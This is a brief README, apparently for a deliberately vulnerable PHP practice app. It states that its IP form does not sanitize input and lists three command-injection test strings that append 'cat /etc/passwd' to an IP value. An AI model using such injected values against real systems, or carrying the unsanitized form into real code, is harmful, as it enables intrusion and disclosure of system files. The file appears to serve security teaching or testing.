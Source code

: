 # the IP post form does not sanitize inputs

Run php -S <your ip>:8888

then direct your browser to index.php

Some valid tests include

- 1.0.0.1&& cat /etc/passwd
- || cat /etc/passwd
- ;cat /etc/passwd
